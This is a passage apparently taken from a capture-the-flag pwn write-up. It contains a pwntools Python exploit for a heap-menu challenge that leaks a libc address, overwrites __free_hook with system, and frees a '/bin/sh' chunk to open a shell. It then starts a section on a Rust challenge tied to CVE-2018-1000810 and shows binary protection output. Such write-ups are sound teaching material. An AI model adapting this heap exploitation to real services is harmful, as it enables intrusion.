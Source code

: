 ```python-repl=
def add(idx=NUM):
    chose(1)
    sl(str(idx))
def edit(content, idx=NUM):
    chose(2)
    sl(str(idx))
    se(content)
def show(idx=NUM):
    chose(3)
    sl(str(idx))
def free(idx):
    chose(4)
    sl(str(idx))
def fast(content='\n'):
    chose(5)
    se(content)

p = remote('0.0.0.0', 9999)
add()
sla('have a try?\n', 'N')
fast()
p.recv(0x100)
for i in range(7):
    free(i)
    edit('\0'*0x10)
free(7)
show()
p.recv(8)
loadlibc()
libc.address = str2int(8, 'libc', libc.sym['__malloc_hook']+96+0x10)
payload = flat(libc.sym['__free_hook'], 0)
edit(payload)
fast('/bin/sh\0')
fast(p64(libc.sym['system']))
free(8)

p.interactive()
```

## Rust_book
RustC 1.29.0 [CVE-2018-1000810]
### 分析：

````
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x200000)
````
